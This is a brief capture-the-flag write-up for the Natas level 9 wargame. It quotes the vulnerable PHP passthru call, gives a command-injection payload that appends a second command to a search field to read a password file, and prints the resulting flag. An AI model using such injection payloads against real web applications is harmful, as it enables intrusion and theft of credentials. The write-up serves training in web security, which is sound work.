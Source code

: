 ```yaml
---
layout: default
title: natas9
---
```


# Natas Level 9 Solution

in this challenge we use command injection, this is the vuln part: `passthru("grep -i $key dictionary.txt");`

and this is the payload we gives `; cat /etc/natas_webpass/natas10`

**Flag:** ***`t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`*** 